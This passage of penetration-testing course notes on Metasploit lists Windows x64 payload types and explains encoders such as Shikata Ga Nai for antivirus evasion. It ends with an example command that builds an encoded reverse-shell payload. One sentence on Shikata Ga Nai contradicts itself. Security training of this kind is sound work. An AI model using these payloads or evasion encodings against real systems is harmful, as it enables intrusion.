 |windows/x64/shell/bind_ipv6_tcp	   | Normal shell, stager + stage, IPv6 Bind TCP stager                       |
|windows/x64/meterpreter/$	         | Meterpreter payload + varieties above                                    |
|windows/x64/powershell/$	           | Interactive PowerShell sessions + varieties above                        |
|windows/x64/vncinject/$	VNC Server | (Reflective Injection) + varieties above                                 |

---

Explore more advanced payloads such as Empire and Cobalt Strike for professional assessments.


# Encoders in Metasploit

Over the 15 years of existence of the Metasploit Framework, Encoders have assisted with making payloads compatible with different processor architectures while at the same time helping with antivirus evasion. Encoders come into play with the role of changing the payload to run on different operating systems and architectures. These architectures include:

- **x64**
- **x86**
- **sparc**
- **ppc**
- **mips**

They are also needed to remove hexadecimal opcodes known as bad characters from the payload. Not only that but encoding the payload in different formats could help with the AV detection as mentioned above. However, the use of encoders strictly for AV evasion has diminished over time, as IPS/IDS manufacturers have improved how their protection software deals with signatures in malware and viruses.

### Shikata Ga Nai Encoding

Shikata Ga Nai (SGN) is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore. Far from it. The name (仕方がない) means _It cannot be helped_ or _Nothing can be done about it_, and rightfully so if we were reading this a few years ago. However, there are other methodologies we will explore to evade protection systems. 

### Selecting an Encoder

Before 2015, the Metasploit Framework had different submodules that took care of payloads and encoders. They were packed separately from the `msfconsole` script and were called **msfpayload** and **msfencode**.

If we wanted to create our custom payload, we could do so through `msfpayload`, but we would have to encode it according to the target OS architecture using `msfencode` afterward. A pipe would take the output from one command and feed it into the next, which would generate an encoded payload, ready to be sent and run on the target machine.

#### Example:
```bash
msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai
```
